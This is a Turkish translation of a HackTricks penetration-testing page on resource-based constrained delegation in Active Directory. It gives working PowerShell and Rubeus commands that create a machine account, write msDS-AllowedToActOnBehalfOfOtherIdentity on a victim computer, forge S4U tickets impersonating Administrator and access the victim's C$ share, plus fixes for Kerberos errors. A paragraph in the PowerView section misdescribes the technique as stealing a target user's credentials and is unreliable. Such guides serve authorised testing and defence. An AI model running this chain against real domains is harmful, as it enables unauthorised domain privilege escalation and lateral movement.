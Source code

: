 # Kaynak Tabanlı Kısıtlanmış Delege Etme

<details>

<summary><strong>AWS hackleme becerilerinizi sıfırdan kahraman seviyesine getirin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong> ile</strong>!</summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'u takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Kaynak Tabanlı Kısıtlanmış Delege Etmenin Temelleri

Bu, temel [Kısıtlanmış Delege Etme](constrained-delegation.md) ile benzerdir, ancak **bir nesneye herhangi bir kullanıcıyı bir hizmete taklit etme izni vermek** yerine, Kaynak Tabanlı Kısıtlanmış Delege Etme, **nesneye kimin herhangi bir kullanıcıyı taklit edebileceğini belirler**.

Bu durumda, kısıtlanmış nesnenin, herhangi bir başka kullanıcıyı kendisiyle ilgili taklit edebilecek kullanıcının adını içeren _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ adında bir özelliği olacaktır.

Bu Kısıtlanmış Delege Etme ile diğer delege etme türleri arasındaki önemli bir fark da, **bir makine hesabına yazma izinleri** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/vb_) olan herhangi bir kullanıcının _**msDS-AllowedToActOnBehalfOfOtherIdentity**_'yi ayarlayabilmesidir (Diğer Delege Etme türlerinde etki alanı yönetici ayrıcalıklarına ihtiyacınız vardı).

### Yeni Kavramlar

Kısıtlanmış Delege Etme'de, kullanıcının _userAccountControl_ değerinin içindeki **`TrustedToAuthForDelegation`** bayrağının bir **S4U2Self** gerçekleştirmek için gerektiği söylenmişti. Ancak bu tamamen doğru değildir.\
Gerçek şu ki, o değere sahip olmasanız bile, bir **hizmet** (SPN'ye sahip olan) olarak herhangi bir kullanıcıya karşı bir **S4U2Self** gerçekleştirebilirsiniz, ancak **`TrustedToAuthForDelegation`**'a sahipseniz, dönen TGS **İleriye Yönlendirilebilir** olacaktır ve bu bayrağa sahip değilseniz, dönen TGS **İleriye Yönlendirilemez** olacaktır.

Ancak, **S4U2Proxy**'de kullanılan **TGS** **İleriye Yönlendirilemez** ise, bir **temel Kısıtlanmış Delege Etme**'yi kötüye kullanmaya çalışmak **çalışmayacaktır**. Ancak, bir **Kaynak Tabanlı kısıtlanmış delege etmeyi** sömürmeye çalışıyorsanız, bu çalışacaktır (bu bir zayıflık değil, görünüşe göre bir özelliktir).

### Saldırı Yapısı

> Eğer bir **Bilgisayar** hesabına **yazma yetkisi eşdeğer ayrıcalıklarına** sahipseniz, o makinede **yetkili erişim** elde edebilirsiniz.

Saldırganın zaten **kurban bilgisayarında yazma yetkisi eşdeğer ayrıcalıklarına** sahip olduğunu varsayalım.

1. Saldırgan, bir **SPN'ye sahip olan bir hesabı** zaten **ele geçirir** veya bir tane oluşturur ("Hizmet A"). Herhangi bir _Yönetici Kullanıcısı_ herhangi bir özel ayrıcalığa sahip olmadan **10 adede kadar Bilgisayar nesnesi** oluşturabilir ve bunlara bir SPN atayabilir. Bu nedenle saldırgan sadece bir Bilgisayar nesnesi oluşturabilir ve bir SPN atayabilir.
2. Saldırgan, kurban bilgisayarında (Hizmet B) **YAZMA yetkisini kötüye kullanarak kaynak tabanlı kısıtlanmış delege etmeyi yapılandırır** ve Hizmet A'nın o kurban bilgisayarına karşı herhangi bir kullanıcıyı taklit etmesine izin verir.
3. Saldırgan, Rubeus'u kullanarak Hizmet A'dan Hizmet B'ye **tam bir S4U saldırısı** (S4U2Self ve S4U2Proxy) gerçekleştirir ve Hizmet B'ye **yetkili erişime sahip bir kullanıcı** için bir TGS talep eder.
1. S4U2Self (ele geçirilen/oluşturulan SPN hesabından): **Yönetici için bana bir TGS** isteği yapar (İleriye Yönlendirilemez).
2. S4U2Proxy: Önceki adımda kullanılan **İleriye Yönlendirilemez TGS**'yi kullanarak **Yönetici**'den **kurban ana bilgisayara** bir **TGS** talep eder.
3. İleriye Yönlendirilemez TGS kullansanız bile, kaynak tabanlı kısıtlanmış delege etmeyi sömürdüğünüz için çalışacaktır.
4. Saldırgan, **bilet aktarabilir** ve kullanıcıyı taklit ederek **kurban Hizmet B'ye erişim** elde edebilir.

Etki alanının _**MachineAccountQuota**_ değerini kontrol etmek için şunu kullanabilirsiniz:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Saldırı

### Bir Bilgisayar Nesnesi Oluşturma

[Powermad](https://github.com/Kevin-Robertson/Powermad) kullanarak etki alanı içinde bir bilgisayar nesnesi oluşturabilirsiniz:**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegation'ı Yapılandırma**

**activedirectory PowerShell modülünü kullanarak**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**powerview kullanarak**

Powerview, aktif dizin ortamında çalışan bir PowerShell betiğidir. Bu betik, aktif dizin ortamında kullanıcılar, gruplar, bilgisayarlar ve diğer nesneler hakkında bilgi toplamak ve manipüle etmek için kullanılır. Powerview, etkili bir şekilde aktif dizin ortamını keşfetmek ve saldırı vektörleri oluşturmak için kullanılabilir.

Powerview'ı kullanarak, kaynak tabanlı sınırlı yetkilendirme (resource-based constrained delegation) gibi bir saldırı tekniğini gerçekleştirebilirsiniz. Bu teknik, bir hedef kullanıcının kimlik bilgilerini ele geçirerek, başka bir kullanıcının kimliğiyle hedef sunuculara erişim sağlamayı mümkün kılar.

Bu saldırı tekniğini gerçekleştirmek için aşağıdaki adımları izleyebilirsiniz:

1. Powerview'ı hedef sunucuya yükleyin.
2. Powerview'ı çalıştırarak aktif dizin ortamını keşfedin.
3. Hedef kullanıcının kimlik bilgilerini ele geçirin.
4. Hedef sunucuda kaynak tabanlı sınırlı yetkilendirme yapılandırması kontrol edin.
5. Hedef sunucuda kaynak tabanlı sınırlı yetkilendirme yapılandırması varsa, hedef kullanıcının kimlik bilgilerini kullanarak başka bir kullanıcının kimliğiyle hedef sunucuya erişim sağlayın.

Bu saldırı tekniği, hedef sunucuda kaynak tabanlı sınırlı yetkilendirme yapılandırması olduğunda etkili olabilir. Ancak, bu teknik yalnızca yasal izinlerle ve etik kurallara uygun olarak kullanılmalıdır.
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Tam bir S4U saldırısı gerçekleştirme

İlk olarak, `123456` şifresiyle yeni bir Bilgisayar nesnesi oluşturduk, bu yüzden o şifrenin hash değerine ihtiyacımız var:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Bu, hesap için RC4 ve AES karmaşalarını yazdıracaktır.\
Şimdi, saldırı gerçekleştirilebilir:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Rubeus'un `/altservice` parametresini kullanarak sadece bir kez isteyerek daha fazla bilet oluşturabilirsiniz:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Not edin ki kullanıcıların "**Delege edilemez**" adında bir özelliği vardır. Bir kullanıcının bu özelliği True olarak ayarlanmışsa, onun yerine geçemezsiniz. Bu özellik bloodhound içinde görülebilir.
{% endhint %}

### Erişim

Son komut satırı, **tam S4U saldırısını gerçekleştirecek ve TGS'yi** Administrator'dan hedef ana bilgisayara **belleğe enjekte edecektir**.\
Bu örnekte Administrator'dan **CIFS** hizmeti için bir TGS talep edildi, bu yüzden **C$'ye** erişebileceksiniz:
```bash
ls \\victim.domain.local\C$
```
### Farklı hizmet biletlerini kötüye kullanma

[**Burada mevcut hizmet biletlerini öğrenin**](silver-ticket.md#available-services).

## Kerberos Hataları

* **`KDC_ERR_ETYPE_NOTSUPP`**: Bu, kerberos'un DES veya RC4 kullanmaması şeklinde yapılandırıldığı ve sadece RC4 karma değerini sağladığınız anlamına gelir. Rubeus'a en azından AES256 karma değerini sağlayın (veya sadece rc4, aes128 ve aes256 karma değerlerini sağlayın). Örnek: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Bu, mevcut bilgisayarın saati ile DC'nin saati farklı olduğunda ve kerberos'un düzgün çalışmadığı anlamına gelir.
* **`preauth_failed`**: Bu, verilen kullanıcı adı + karma değerlerinin oturum açmak için çalışmadığı anlamına gelir. Karma değerlerini oluştururken kullanıcı adının içine "$" koymayı unutmuş olabilirsiniz (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Bu şunları ifade edebilir:
* Taklit etmeye çalıştığınız kullanıcının istenen hizmete erişimi olmayabilir (çünkü taklit edemezsiniz veya yeterli ayrıcalığa sahip değildir)
* İstenen hizmet mevcut değil (örneğin winrm için bir bilet isterseniz ancak winrm çalışmıyorsa)
* Oluşturulan sahte bilgisayar, zayıf hedef sunucu üzerindeki ayrıcalıklarını kaybetmiş olabilir ve onları geri vermeniz gerekebilir.

## Referanslar

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı yapmak veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden oluşan PEASS Ailesi**](https://opensea.io/collection/the-peass-family)'ni keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da takip edin 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live).
* Hacking hilelerinizi paylaşarak **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek katkıda bulunun.

</details>
